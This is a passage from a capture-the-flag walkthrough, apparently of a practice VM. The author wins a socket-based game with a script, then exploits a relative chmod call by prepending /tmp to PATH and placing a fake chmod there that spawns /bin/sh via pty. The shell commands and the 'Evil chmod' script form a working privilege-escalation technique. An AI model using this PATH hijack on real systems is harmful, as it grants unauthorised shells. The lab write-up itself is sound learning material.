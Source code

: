 ```python play_game.py
   elif ret[0] == 'Final':
      print 'Done?'
      sock.close()
      sys.exit(0)

   # if we dont know what to do, just 'press enter'
   else:
      sock.send('\n')
sock.close()
```

I ran this in another session with `./game` running and won :P Once you win, the output results in:

```bash Game Win Output
!*!*!*!*! Congratulations, new high score (302785) !*!*!*!*!

I hear the faint sound of chmodding.......
```

... and ends. Heh, ok. Well that was probably not exactly what I hoped for, but nonetheless, the chmodding is at least a hint. The first thing that came to mind is a important file that was previously not available now possibly is as its been chmodded by `george` after winning the game. Or, if it is in fact a chmod that is being run, is it being called via a system command from its full path (/usr/bin/chmod), or just via chmod?

To test, I fired up another editor on `chmod.py` and just put a line to echo test. I `chmod +x` this and moved the file to `/tmp`. I then added `/tmp` to `PATH` via `export PATH=/tmp:$PATH`:

```bash Testing chmod path resolve
milk_4_life@hell:~$ python chmod.py          # test the script
Testing chmod exec
milk_4_life@hell:~$ cp chmod.py /tmp/chmod   # copy it to /tmp
milk_4_life@hell:~$ chmod +x /tmp/chmod      # make it executable
milk_4_life@hell:~$ /tmp/chmod               # test it
Testing chmod exec
milk_4_life@hell:~$ export PATH=/tmp:$PATH   # prefix PATH with /tmp
milk_4_life@hell:~$ chmod                    # test it without full path
Testing chmod exec
milk_4_life@hell:~$ ./game                   # start the game
I'm listening
Testing chmod exec                           # profit :)
```

With it confirmed that `chmod` was not called from its full path once you win the game (using our previously mentioned winning script :D), it was time to edit our `chmod` script to be slightly more useful:

```python Evil chmod
#!/usr/bin/python
import pty
pty.spawn('/bin/sh')
```

With this now in /tmp/chmod, I reran `./game.py`, and then `./play_game.py`. After 30 seconds on the session we started the game we had:
